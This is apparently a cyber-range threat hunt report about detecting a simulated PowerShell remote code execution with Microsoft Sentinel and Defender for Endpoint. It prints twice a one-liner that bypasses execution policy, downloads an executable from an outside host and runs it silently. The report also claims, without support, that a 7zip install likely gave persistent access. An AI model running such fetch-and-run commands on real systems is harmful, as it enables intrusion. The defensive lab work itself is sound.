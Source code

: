 ## **🔍 Threat Hunt Report**
## **🎯 Remote Code Execution (RCE) via PowerShell Payload and Creating a Detection Rule**

## **Platforms and Languages Leveraged**

*Microsoft Sentinel 🛰️*

*Windows 10 Virtual Machines (Microsoft Azure) ☁️*

*Microsoft Defender for Endpoint 🛡️*

*Kusto Query Language (KQL) 📊*

## **Scenario: Execution of remote code on the VM by the attacker 🖥️⚠️**

An attacker gains access to the VM through a vulnerability or a phishing attack. Once inside, they execute a Remote Code Execution (RCE) command using PowerShell to download and run a malicious payload, in this case, the 7zip installer.

Here's how the attacker might have carried out the attack:

**Initial Access:**
The attacker exploited a vulnerability in the system or tricked a user into downloading and running a malicious attachment (e.g., a weaponized PowerShell script disguised as an innocuous file). 🔐

**Execution:**
After gaining access, the attacker executes the following PowerShell command to download a malicious executable (7zip installer) from a remote server:

```
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -NoProfile -Command "Invoke-WebRequest -Uri 'https://sacyberrange00.blob.core.windows.net/vm-applications/7z2408-x64.exe' -OutFile C:\ProgramData\7z2408-x64.exe; Start-Process 'C:\programdata\7z2408-x64.exe' -ArgumentList '/S' -Wait"
```

**Payload Execution:**
The attacker uses Invoke-WebRequest to download the payload from a remote server. After the file is downloaded, the attacker silently installs the application by executing it with the /S (silent) flag, ensuring there are no user prompts during the installation. This download and installation are performed under the guise of a legitimate action, making detection more difficult. 🗂️🔍

**Detection:**
The Microsoft Defender for Endpoint (MDE) system detects the unusual PowerShell activity (particularly the use of Invoke-WebRequest and Start-Process in sequence), triggering an alert and activating the custom detection rule you set up. 🚦
____

## **How We Detected the RCE Payload 🔍⚡**

Our team developed a custom detection rule focused on spotting PowerShell commands that used Invoke-WebRequest and Start-Process — two key techniques attackers leverage to remotely download and execute payloads. The rule was designed to alert when these commands appeared within a certain time window. ⏳

When we ran the detection, we caught this PowerShell command running on the compromised system:
```
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -NoProfile -Command "Invoke-WebRequest -Uri 'https://sacyberrange00.blob.core.windows.net/vm-applications/7z2408-x64.exe' -OutFile C:\ProgramData\7z2408-x64.exe; Start-Process 'C:\programdata\7z2408-x64.exe' -ArgumentList '/S' -Wait"
```
This command downloaded and silently installed a 7zip executable from an external source. The /S flag ensured the installer ran quietly without prompting the user. 👨‍💻🎭

Our analysis revealed the payload landed in C:\ProgramData\7z2408-x64.exe and was executed automatically, likely granting the attacker persistent remote access to the VM. 🚨🔐

